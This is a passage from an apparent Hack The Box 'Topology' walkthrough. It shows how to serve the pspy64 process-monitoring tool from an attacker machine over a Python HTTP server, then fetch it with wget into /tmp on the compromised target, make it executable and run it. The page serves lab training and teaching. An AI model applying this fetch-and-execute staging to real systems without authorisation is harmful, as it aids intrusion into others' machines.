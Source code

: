 ### **<strong><font color="DarkKhaki">Inspecting running processes with pspy:</font></strong>**

To enumerate running processes, let's transfer the **pspy64** binary into the target machine. To do so, let's follow the steps below: <br/>

**1.** Download [pspy64](https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64) from the latest release on your local machine: <br/>

```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
```

**2.** Start a simple HTTP server using python, which will be serving the **pspy64** binary: <br/>

```bash
python3 -m http.server 80
```

**3.** Download the **pspy64** binary in the **/tmp/** directory of target machine: <br/>

```bash
vdaisley@topology:~$ cd /tmp/
vdaisley@topology:/tmp/$ wget http://tun0-IP/pspy64
```

**4.** Make the binary **pspy64** executable and run it: <br/>

```bash
vdaisley@topology:/tmp/$ chmod +x pspy64
vdaisley@topology:/tmp/$ ./pspy64
```

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-topology/2023-10-14 18_56_27-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i></i></center>
<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-topology/2023-10-14 18_57_16-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>pspy64</i></center>
<br/>
